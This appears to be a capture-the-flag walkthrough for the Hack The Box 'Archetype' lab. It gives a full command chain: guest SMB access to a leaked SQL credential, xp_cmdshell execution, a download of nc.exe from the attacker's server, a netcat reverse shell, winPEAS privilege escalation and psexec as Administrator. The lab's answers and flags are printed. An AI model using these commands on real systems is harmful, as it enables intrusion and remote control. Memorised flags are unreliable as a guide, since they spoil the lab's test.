

# Archetype
- Difficulty: Very easy 

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.

## Task Breakdown
**1. Which TCP port is hosting a database server?**
- Run an Nmap scan to check for open ports by `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]`. This scan reveals several open ports, including 445 (SMB) and 1433 (SQL Server), both of which are significant here.
 
> **Answer:** 1433

**2. What is the name of the non-Administrative share available over SMB?**
- Use `smbclient` too inspect the SMB service, using `smbclient -L [IP-Address]`. We can skip password to enter as `guest` user and then see a list of sharename. Non-administrative shares don't end  with `$`.

> **Answer:** backups

**3. What is the password identified in the file on the SMB share?**
- Access `backups` with `smbclient \\\\[IP-Address]\\backups`. Once connected, list all files by `ls` and we notice there's `prod.dtsConfig` file.  

- Download this file using `get` command

- Use `cat` command to view its content and we have password (`M3g4c0rp123`) and also user ID (`ARCHETYPE\sql_svc`)

> **Answer:** M3g4c0rp123

**4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**
- Found [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) on the Internet
> **Answer:** mssqlclient.py
 
**5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**
- Connect to SQL Server using `/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@[IP-Address] -windows-auth`. Run `help` to view more options and `xp_cmdshell` is the most suitable answer

> **Answer:** xp_cmdshell
- Now we can excecute shellcommand like `whoami` to check 

**6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?**
- I did some research on the Internet and found [this](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook).
> **Answer:** winPEAs

**7. What file contains the administrator's password?**
- We can use **Netcat** to connect betwwen our machine and target machine.
- Copy **netcat** excecutable file to working directory by `cp /usr/share/windows-resources/binaries/nc.exe .`
- Start a HTTP server on port 80 by `sudo python3 -m http.server 80`

- On target machine, run `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://[our-IP-Address]/nc.exe -outfile nc.exe`. This command will excecute powershell on target machine: change directory to `Downloads`, download `nc.exe` file from our machine and output as `nc.exe` too.

- On our machine, if reponse sends 200 code, that means we succeed

- Here we will use **Reverse Shell** method to connect and listen between 2 machines
    - In our machine, run `nc -lvnp 4444`
    - In target machine, run `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc.exe -nv [our-IP-Address] 4444 -e powershell.exe"`
    - If we connect successfully, we can excecute on target machine via powershell
    
- But now, if we move to `Administrator` folder, we can't do anything because access is denied, so we need to escalate privileges by using `winPEAs`.
- Download `winPEAS` excecutable file from [here](https://github.com/peass-ng/PEASS-ng/releases/tag/20241003-ae31e908), then run a HTTP server in port 80 on our machine. In target's powershell, run `wget http://[our-IP-Address]/winPEASx64.exe -outfile winpeas.exe` to get that file

- Now run winPEAS by `.\winpeas.exe fileanalysis` to analys files in this Windows machine. Noted that red output line **indicates a special privilege over an object or something is misconfigured.** Here we will find some suspicious files like `ConsoleHost_History.txt`

> **Answer:** ConsoleHost_History.txt

## Submit user flag
- User flag is located in `C:\Users\sql_svc\Desktop\user.txt`

- **User flag:** 3e7b102e78218e935bf3f4951fec21a3

## Submit root flag
- View `ConsoleHost_history.txt` file content using `cat` command and you will get username as `admin` and password as `MEGACORP_4dm1n!!`

- Now use `psexec` in Impacket collection by running `/usr/share/doc/python3-impacket/examples/psexec.py  administrator@[IP-Address]` and enter passwords. Now we can excecute as `Administrator` user   

- The flag should be located in  `C:\Users\Adminstrator\Desktop\root.txt`  
  
- **Root flag:** b91ccec3305e98240082d4474b848528

